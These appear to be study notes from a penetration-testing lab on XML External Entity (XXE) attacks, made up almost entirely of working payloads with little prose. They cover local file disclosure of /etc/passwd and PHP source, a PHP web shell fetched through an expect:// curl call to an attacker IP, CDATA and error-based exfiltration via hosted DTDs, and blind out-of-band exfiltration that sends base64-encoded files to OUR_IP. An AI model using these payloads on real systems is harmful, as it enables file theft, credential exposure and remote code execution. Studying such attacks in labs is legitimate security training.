 ___
# Local File Disclosure

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## RCE

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer. 

# Advanced Exfiltration with CDATA

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

This will not work, since XML prevents joining internal and external entities.

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

![[Pasted image 20241009203307.png]]
# Error Based XXE

First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.

# Blind Data Exfiltration

First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```





